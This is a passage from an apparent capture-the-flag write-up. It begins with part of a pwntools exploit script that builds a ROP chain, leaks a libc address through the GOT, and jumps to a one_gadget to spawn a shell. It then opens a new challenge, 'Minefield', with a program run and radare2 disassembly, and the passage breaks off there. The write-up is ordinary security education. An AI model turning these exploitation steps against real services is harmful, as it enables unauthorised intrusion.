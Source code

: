 ```python
payload += p64(0x00)                                # rbx
payload += p64(elf.sym.payload - context.bytes)     # rbp
payload += p64(0x00)                                # r12
payload += p64(0x00)                                # r13
payload += p64(0x00)                                # r14
payload += p64(0x00)                                # r15
payload += p64(rop.syscall[0])
payload += p64(mov_eax_1)

# Send both payloads
io.send(flat({eip_offset: payload, 0x100: b''}))
io.send(payload2)

# Receive GOT leak and calculate libc base
alarm = u64(io.recvn(context.bytes))
libc.address = args.REMOTE and alarm - libc.sym.alarm or libc.address
system = libc.sym.system
one_gadget = libc.address + 0x4f432
log.success(f"alarm @ {hex(alarm)}")
log.success(f"libc base @ {hex(libc.address)}")
log.success(f"one_gadget @ {hex(one_gadget)}")

# Spawn shell
io.recv(len(payload2) - context.bytes)
io.send(flat({eip_offset: one_gadget}))
io.interactive()
```

## Pwn: Minefield

We're given a binary that asks us if we are ready to plant the mine. Here's what happens if we are not ready:

```sh
$ ./minefield
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 1
If you are not ready we cannot continue.
```

A rather lackluster response. Let us take a deeper dive into the disassembly. It seems like the main function calls `menu()` which then passes our input to `choice()` which contains the meat of the program logic.

If `1` is submitted as input, the program will reply with `If you are not ready we cannot continue.` and exits. Otherwise, when `2` is submitted as input, the program replies with `We are ready to proceed then!` before invoking the `mission()` function. 

```
[0x004007b0]> pdf @ sym.mission
            ; CALL XREF from sym.choice @ 0x400b54
/ 179: sym.mission ();
|           ; var int64_t var_30h @ rbp-0x30
|           ; var int64_t var_28h @ rbp-0x28
|           ; var int64_t var_1ch @ rbp-0x1c
|           ; var int64_t var_12h @ rbp-0x12
|           ; var int64_t var_8h @ rbp-0x8
<output truncated>
```

